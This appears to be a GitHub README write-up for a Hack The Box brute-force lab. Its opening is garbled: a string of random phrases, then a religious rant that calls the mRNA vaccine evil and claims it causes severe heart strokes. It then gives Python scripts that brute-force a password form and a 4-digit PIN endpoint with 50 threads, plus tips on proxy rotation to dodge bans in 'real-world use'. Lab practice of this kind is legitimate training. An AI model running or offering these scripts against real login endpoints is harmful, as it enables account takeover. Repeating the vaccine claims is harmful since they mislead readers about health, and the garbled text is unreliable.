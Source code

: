 # HTB_Login_bruteforce

Today's 29-05-2025 God's speaking: theres no place like home I'm done driving guilty place unsung hero are you insane bye you talkin' to me ahh thats much better failure to communicate Catastrophic Success by the way listen buddy CIA God smack foul white trash bad ol puddytat I'm tired of this economy straighten up BBC crash and burn this might end badly what do you want nerd money It grieves me how come Give me praise Russia

Burte-force attack is can be utilized when the randomity of God reached to human being. Mortile human likes to create their fortless against God. What I mean is When C virus occured from China, the medical companies has developed vaccine to stand against God's oracle. Eventually, side-effect of evil irrversible MRNA vaccine could cause servere heart stroke. This is consequence of the people who dose not decided to follow God's will. I am talking Brute-force attack God's will and punishment of God. 

Here is a code given by the HTB. 
"""
import requests

ip = "127.0.0.1"  # Change this to your instance IP address
port = 1234       # Change this to your instance port number
passwords = requests.get("https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Passwords/Common-Credentials/500-worst-passwords.txt").text.splitlines()
for password in passwords:
    print(f"Attempted password: {password}")

    
    response = requests.post(f"http://{ip}:{port}/dictionary", data={'password': password})

    
    if response.ok and 'flag' in response.json():
        print(f"Correct password found: {password}")
        print(f"Flag: {response.json()['flag']}")
        break
"""


In some reason the ffuf did not worked out on this URL 
crunch 4 4 0123456789 -o 4-digits.txt
ffuf -u "http://0.0.0.0.:00000/pin?pin=FUZZ" -w 4-digits.txt

They all have returned 401 error.

The code below uses special techniques that allow repentants
to use Multithreading without time.sleep(), artificial Delays

import requests
from concurrent.futures import ThreadPoolExecutor, as_completed

ip = "0.0.0.0"  # Target IP
port = 12345           # Target port

def try_pin(pin):
    formatted_pin = f"{pin:04d}"
    try:
        response = requests.get(
            f"http://{ip}:{port}/pin?pin={formatted_pin}",
            timeout=3  # Prevents hanging on slow responses
        )
        if response.ok and 'flag' in response.json():
            return formatted_pin, response.json()['flag']
    except (requests.RequestException, ValueError) as e:
        pass  # Skip errors (timeouts, JSON decode fails)
    return None

def brute_force():
    with ThreadPoolExecutor(max_workers=50) as executor:  # Adjust workers based on server tolerance
        futures = [executor.submit(try_pin, pin) for pin in range(10000)]
        for future in as_completed(futures):
            result = future.result()
            if result:
                pin, flag = result
                print(f"\n[+] Correct PIN found: {pin}")
                print(f"[+] Flag: {flag}")
                executor.shutdown(wait=False)  # Stop all threads immediately
                return

if __name__ == "__main__":
    print("Starting brute-force attack...")
    brute_force()

1. Multithreading with ThreadPoolExecutor
What It Does:
Instead of testing PINs one-by-one (sequentially), the script sends multiple concurrent requests using a thread pool.

Example: If max_workers=50, it tests 50 PINs simultaneously, drastically reducing total time.

Key Components:
ThreadPoolExecutor: Manages a pool of worker threads.

executor.submit(): Queues a PIN to be tested by an available thread.

as_completed(): Yields futures (thread results) as they finish, out of order.

Why It’s Faster:
Sequential code (original) takes ~10,000 requests × latency (e.g., 0.1s) = 16+ minutes.

Multithreaded (50 workers) takes ~(10,000/50) × latency ≈ 20 seconds.

2. No time.sleep() or Artificial Delays
Original Problem:
Adding time.sleep() between requests slows down brute-forcing (e.g., sleep(0.1) → 16+ minutes total).

Unnecessary: Delays are only needed if the server rate-limits (handled later via max_workers).

Solution:
Remove all delays: Let threads run at full speed.

Control throughput via max_workers:

Fewer workers (e.g., max_workers=10) → Lower server load.

More workers (e.g., max_workers=100) → Faster but riskier (may trigger bans).

3. Error Handling and Timeouts
Critical Improvements:
try/except Blocks:

Catches network errors (e.g., timeouts, connection resets) silently to avoid crashes.

Skips invalid JSON responses (e.g., if the server returns HTML on errors).

timeout=3 in requests.get():

Prevents threads from hanging indefinitely on unresponsive servers.

Frees up threads quickly for new PINs.

Why It Matters:
Without timeouts, a single slow request could stall the entire thread pool.

Silent error handling ensures the script continues even if some requests fail.

4. Early Termination
How It Works:
When a thread finds the correct PIN ('flag' in response), it returns the result.

executor.shutdown(wait=False):

Immediately stops all threads (no wasted requests after success).

wait=False kills pending threads aggressively.

Efficiency Gain:
Avoids testing all 10,000 PINs if the correct one is found early (e.g., at PIN 0427).

5. Thread Safety and Shared State
Design Choices:
No shared variables: Each thread works independently (no locks needed).

Stateless: Threads don’t modify global data; results are returned via futures.

Why It’s Safe:
Threads only read the pin value and send HTTP requests.

Results are collected thread-safely by as_completed().

6. Optional: Dynamic Adjustments
For Real-World Use:
Proxy Rotation: Add proxies to requests.get() if the server bans IPs.

Rate Limiting: Reduce max_workers if the server rejects requests (e.g., HTTP 429).

Progress Tracking:

python
if pin % 100 == 0:
    print(f"Progress: {pin}/10000", end="\r")
Performance Comparison
Metric	Original Code	Enhanced Code (50 threads)
Total Time	~16 minutes	~20 seconds
CPU Usage	Low (single-threaded)	High (parallel)
Network Overhead	Low	Moderate (50 concurrent)
Robustness	Fragile (no error handling)	Resilient (timeouts/retries)
When to Use This Approach
Fast brute-forcing: Ideal for CTFs or pentesting where speed matters.

Servers without rate-limiting: If the target allows high concurrency.

Avoids ffuf limitations: When you need custom logic (e.g., JSON parsing).

Final Notes
Adjust max_workers based on server tolerance (start low, increase gradually).

Monitor for bans (HTTP 429/403); if triggered, add proxies or reduce threads.

For rate-limited targets, consider adding a small delay per thread (e.g., time.sleep(0.05) inside try_pin).

This script balances speed, reliability, and simplicity—perfect for attacking 4-digit PIN endpoints efficiently.




        
